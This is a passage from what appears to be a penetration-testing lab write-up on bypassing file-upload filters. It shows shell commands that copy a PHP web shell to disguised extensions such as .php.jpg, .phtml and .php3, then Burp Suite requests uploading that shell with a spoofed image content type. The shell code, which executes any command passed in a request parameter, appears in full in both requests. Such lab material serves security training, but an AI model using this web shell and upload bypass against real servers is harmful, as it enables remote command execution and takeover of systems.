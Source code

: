 **Creating Bypass Versions:**
```bash
┌──(kali㉿kali)-[~/oclab]
└─$ cp shell.php shell.php.jpg
└─$ cp shell.php shell.phtml
└─$ cp shell.php shell.php3

┌──(kali㉿kali)-[~/oclab]
└─$ file shell.php*
shell.php:     PHP script, ASCII text
shell.php.jpg: PHP script, ASCII text
shell.php3:    PHP script, ASCII text
shell.phtml:   PHP script, ASCII text
```

### Step 3.3: Upload with Burp Suite - Proof of Concept

**Burp Intercept - Original Request:**
```
POST /upload.php HTTP/1.1
Host: 192.168.148.100
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Cookie: PHPSESSID=abc123def456

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
------WebKitFormBoundary--
```

**Burp Intercept - Modified Request:**
```
POST /upload.php HTTP/1.1
Host: 192.168.148.100
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Cookie: PHPSESSID=abc123def456

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    system($_REQUEST['cmd']);
    echo "</pre>";
}
?>
------WebKitFormBoundary--
```

